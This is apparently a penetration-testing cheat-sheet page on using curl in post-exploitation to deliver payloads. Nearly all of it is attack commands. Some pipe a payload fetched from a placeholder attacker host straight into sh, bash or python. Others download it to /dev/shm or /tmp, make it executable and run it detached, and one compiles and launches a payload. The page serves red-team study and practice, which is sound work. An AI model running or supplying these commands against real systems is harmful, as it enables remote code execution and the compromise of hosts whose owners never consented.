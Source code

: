 # cURL

## 01 - Fileless Code Execution

```
$ curl http[s]://<IP>/payload.sh | sh

$ curl http[s]://<IP>/payload.sh | bash

$ curl http[s]://<IP>/payload.py | python
```

## 02 - Dropping On Memory

> [!INFO] Got Permission Denied!
> If you get a `Permission denied` error while executing it in `/dev/shm/`. Check the [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Linux/Host/0xM - Operating System/Manual/Living off the Land#^017cc1|mounted drives]] if `noexec` is configured. Otherwise execute it with a [[#01 - Fileless Code Execution|fileless]] method.

Download payload and execute it.

```
$ curl -o /dev/shm/payload http[s]://<IP>/payload && chmod +x /dev/shm/payload && /dev/shm/payload & disown
```

## 03 - Dropping On Disk

Download payload and execute it.

```
$ curl -o /tmp/payload http[s]://<IP>/payload && chmod +x /tmp/payload && /tmp/payload & disown
```

## 04 - Compiled After Delivery

TODO: Fill this info

```
$ gcc -o payload payload.c && payload & disown
```

---
## References

### GTFOBins

- [GTFOBins: curl](https://gtfobins.github.io/gtfobins/curl/)

### GTFOArgs

- [GTFOArgs: curl](https://gtfoargs.github.io/gtfoargs/curl/)